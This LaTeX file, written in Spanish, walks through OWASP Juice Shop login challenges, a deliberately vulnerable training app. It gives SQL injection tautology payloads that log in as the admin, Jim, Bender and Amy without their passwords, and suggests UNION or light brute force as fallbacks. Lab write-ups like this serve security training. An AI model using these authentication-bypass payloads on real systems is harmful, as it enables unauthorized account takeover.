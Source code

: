 \documentclass[11pt,a4paper]{article}
\begin{document}
\begin{desafio}
\textbf{Objetivo:} Iniciar sesión como administrador sin conocer su contraseña.
\begin{pista}
El campo de email no sanitiza la entrada. Probá una tautología SQL.
\end{pista}
\begin{solucion}
En el campo \textbf{Email} ingresá una inyección que haga la condición siempre verdadera:
\begin{lstlisting}
' OR 1=1 --
\end{lstlisting}
En \textbf{Password} poné cualquier valor. La consulta resultante queda:
\begin{lstlisting}[language=SQL]
SELECT * FROM Users WHERE email = '' OR 1=1 --' AND password = '...'
\end{lstlisting}
Como \texttt{1=1} siempre es verdadero, devuelve al primer usuario (el admin).
\end{solucion}
\end{desafio}

\begin{desafio}
\textbf{Objetivo:} Iniciar sesión como Jim.
\begin{solucion}
Similar al anterior, pero dirigido al usuario Jim. Usá:
\begin{lstlisting}
jim@juice-sh.op' OR 1=1 --
\end{lstlisting}
Si conocés el email exacto, también podés usar \texttt{'} para romper la consulta y comentar el resto.
\end{solucion}
\end{desafio}

\begin{desafio}
\textbf{Objetivo:} Iniciar sesión como Bender.
\begin{solucion}
Misma técnica dirigida a Bender:
\begin{lstlisting}
bender@juice-sh.op' OR 1=1 --
\end{lstlisting}
\end{solucion}
\end{desafio}

\begin{desafio}
\textbf{Objetivo:} Iniciar sesión como Amy.
\begin{solucion}
Amy usa un email poco común. Podés resolverlo por SQLi:
\begin{lstlisting}
amy@juice-sh.op' OR 1=1 --
\end{lstlisting}
O investigar el email correcto (a veces es \texttt{amy@juice-sh.op} o una variante). Si la inyección directa falla, combiná con \texttt{UNION} o fuerza bruta ligera.
\end{solucion}
\end{desafio}
\end{document}
